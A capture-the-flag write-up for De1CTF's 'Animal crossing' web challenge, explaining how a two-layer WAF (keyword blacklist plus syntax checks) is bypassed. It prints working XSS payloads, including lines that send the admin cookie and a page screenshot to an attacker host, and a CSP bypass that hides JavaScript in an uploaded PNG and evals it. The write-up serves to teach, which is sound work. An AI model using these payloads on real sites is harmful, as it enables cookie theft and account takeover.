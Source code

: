 # Animal crossing write up

Description:
Free passport creator lets you show your island!



## Level 1: bypass the cloud WAF

Cloud WAF usually has several layers and several filtering methods. Here I also designed two layers of protection.

### Layer 1: Blacklist detection

```go
var blackList = []string{
	//global
	"document", "window", "top", "parent", "global", "this",
	//func
	"console", "alert", "log", "promise", "fetch", "eval", "import",
	//char
	"<", ">", "`", "\\*", "&", "#", "%", "\\\\",
	//key
	"if", "set", "get", "with", "yield", "async", "wait", "func", "for", "error", "string",
	//string
	"href", "location", "url", "cookie", "src",
}
```

The way to bypass the blacklist is to avoid the strings and characters of ban. Here, because of the iris framework problem of go, the `;` and the data after it will be deleted, and can be bypassed with `%0a`

### Layer 2: Static syntax analysis

```
1. Pass in data to fmt.Sprintf("'%s';", data), and then parse the syntax. If parse fails, the error will be returned directly.
2. And then we visit AST nodes:
   1. VariableExpression/AssignExpression, All declaration/assignment statements will ban
   2. CallExpression, all function call, and callee not Identifier, will ban, example:
      1. ban:  test.test()、a[x]()
      2. pass: test()
   3. BracketExpression, all member reference and member is not Identifier, will ban, example:
      1. ban:  a[1]、a['xx']
      2. pass: a[x]
```

This layer of WAF, in fact, only needs to find out the rule of ban and find the unprocessed syntax to bypass it. My expected solution here is to pass variables with `throw`, but there are many other syntax that can be used.

The payload:

```js
data=base64DATAXXXXXXX'%0atry{throw 'ev'%2b'al'}catch(e){try{throw frames[e]}catch(c){c(atob(data))}}%0a//
```

After bypassing the two layers of WAF protection, the local successful alert, we can use:

```js
location.href = "http://xxxx/?" + btoa(ducument.cookie) 
```

get the admin cookie, and the cookie is a part of the flag:

```
FLAG=De1CTF{I_l1k4_
```



## Level 2: read 400 pictures

In the other half of the flag, hint:

```
What is the admin doing?
```

Read the administrator's document, you will find that there are  400 PNG images, and the flag is hidden in these images. 

Here are several solutions preset during the design:

1. Bypass CSP to import html2canvas lib, get the screenshot and upload to server, get the image address and send it back, then download the image
2. Use the for loop to send all 400 pictures to /upload, get 400 picture addresses and send back
3. Read the pictures directly and send them back one by one, write scripts, or use for to circulate and batch transfer, but the return process needs code conversion, and after the transfer back, it also needs to be converted into pictures for splicing

All three solutions can get the flag, I will introduce the solution of bypassing CSP and import html2canvas lib. Other methods are similar, so I won't write them all (You can go to see the players' writeup),

### Bypass CSP to import html2canvas lib

The main function of this website is to create a animal crossing passport, The homepage has a `/upload` api for upload image, you can upload a file with `png` suffix, and use `fetch` get the png file source, then `eval` it. You can bypass CSP to import the html2canvas lib and execute it. 

The png file:

```js
	...
  ...
html2canvas.js code
	...
  ...

// screenshot->upload screenshot->send img address back
html2canvas(document.body).then(function(canvas) {
        const form = new FormData(),
        url = "/upload",
        blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"})
        file = new File([blob], "a.png")
        form.append("file", file)
        fetch(url, {
            method: "POST",
            body: form
        }).then(function(response) {
            return response.json()
        }).then(function(data) {
            location.href="//xxxxxxxxx:8099/?"+data.data.toString()
        })
  })
```

Here I also write the JS of screenshot operation into png. 

It upload the screenshot to the server and get the returned image address, then send it back to the attacker

### Read image and execute

After upload the image, get the png address, then you can read the image with the controllable JS part and execute it

```js
fetch(`/static/images/xxxxxxxxx.png`).then(res=>res.text()).then(txt=>eval(txt))
```

And you can use the method of bypassing the WAF to pack it



Finally, when submitted to the BOT, you can receive the address of the screenshot of the admin's interface, and download it to see the other half of the flag

```
cool_GamE}
```

Flag:

```
De1CTF{I_l1k4_cool_GamE}
```


